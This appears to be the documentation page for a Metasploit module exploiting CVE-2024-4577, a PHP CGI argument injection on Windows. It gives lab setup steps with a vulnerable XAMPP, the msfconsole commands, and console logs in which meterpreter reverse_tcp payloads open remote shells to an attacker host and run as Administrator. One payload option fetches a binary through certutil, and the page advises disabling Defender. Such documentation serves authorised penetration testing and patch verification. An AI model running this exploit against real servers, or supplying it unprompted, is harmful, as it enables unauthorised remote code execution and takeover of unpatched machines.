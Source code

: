 ## Vulnerable Application
This module exploits a PHP CGI argument injection vulnerability affecting PHP in certain configurations
on a Windows target. A vulnerable configuration is locale dependant (such as Chinese or Japanese), such that
the Unicode best-fit conversion scheme will unexpectedly convert a soft hyphen (0xAD) into a dash (0x2D)
character. Additionally a target web server bust be configured to run PHP under CGI mode, or directly expose
the PHP binary. This issue has been fixed in PHP 8.3.8 (for the 8.3.x branch), 8.2.20 (for the 8.2.x branch),
and 8.1.29 (for the 8.1.x branch). PHP 8.0.x and below are end of life and have note received patches.

XAMPP is vulnerable in a default configuration, and we can target the /php-cgi/php-cgi.exe endpoint. To target
an explicit .php endpoint (e.g. /index.php), the server must be configured to run PHP scripts in CGI mode.

## Testing
* Configure a Windows system with a system locale for Japanese (code page 932).
  * Navigate to `Control Panel` -> `Region` -> `Administrative` -> `Change system locale...`
  * Select `Japanese (Japan)` and click `OK`.
  * Click `Restart now`.
  * After restart, login and open a command prompt. Verify the code page via the command `chcp`. You should see this:
```
Microsoft Windows [Version 10.0.20348.1607]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>chcp
Active code page: 932
```
* Download a known vulnerable version of XAMPP `8.2.12 / PHP 8.2.12`
([direct link here](https://sourceforge.net/projects/xampp/files/XAMPP%20Windows/8.2.12/xampp-windows-x64-8.2.12-0-VS16-installer.exe)).
* Install XAMPP and run the XAMPP Console. Click the `Start` action to start the Apache web server.
* Verify you can browse to http://127.0.0.1:80/. You should see the "Welcome to XAMPP for Windows" page.

No further configuration is needed to exploit the target when targeting the exploits default `TARGETURI` endpoint
`/php-cgi/php-cgi.exe'`. This is because XAMPP uses the Apache `ScriptAlias` directive to expose the `php-cgi.exe`
binary directly. If you want to target an `.php` endpoint (for example `/index.php`), the target Apache serer must
have this enabled in its configuration (`c:\xampp\apache\conf\extra\httpd-xampp.conf`):

```
 #
 # PHP-CGI setup
 #
 <FilesMatch "\.php$">
     SetHandler application/x-httpd-php-cgi
 </FilesMatch>
 <IfModule actions_module>
     Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
 </IfModule>
```

If you modify the Apache config, dont forget to restart the Apache server to pick up the changes.

## Verification Steps
Note: On Windows, disable Defender if you are using the command payloads. This is not needed for the PHP payloads
as they execute in-memory.

1. Start msfconsole
2. `use exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set payload php/meterpreter/reverse_tcp`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Scenarios

### Windows PHP

```
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set RHOSTS 192.168.86.50
RHOSTS => 192.168.86.50
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > check
[+] 192.168.86.50:80 - The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set target 0
target => 0
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > show options

Module options (exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.50         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                    yes       The target port (TCP)
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /php-cgi/php-cgi.exe  yes       The path to a PHP CGI endpoint
   VHOST                            no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows PHP



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > check
[+] 192.168.86.50:80 - The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
[*] Sending stage (39927 bytes) to 192.168.86.50
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:49761) at 2024-06-10 17:32:52 +0100

meterpreter > getuid
Server username: Administrator
meterpreter > pwd
C:\xampp\php
meterpreter > sysinfo
Computer    : WIN-V28QNSO2H05
OS          : Windows NT WIN-V28QNSO2H05 10.0 build 20348 (Windows Server 2022) AMD64
Meterpreter : php/windows
meterpreter > 
```

### Windows Command

```
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set target 1
target => 1
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > show options

Module options (exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.50         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                    yes       The target port (TCP)
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /php-cgi/php-cgi.exe  yes       The path to a PHP CGI endpoint
   VHOST                            no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ZyJgsNjYvpTX     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > check
[+] 192.168.86.50:80 - The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
msf6 exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
[*] Sending stage (201798 bytes) to 192.168.86.50
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.50:49780) at 2024-06-10 17:34:45 +0100

meterpreter > getuid
Server username: WIN-V28QNSO2H05\Administrator
meterpreter > pwd
C:\xampp\php
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : ja_JP
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```
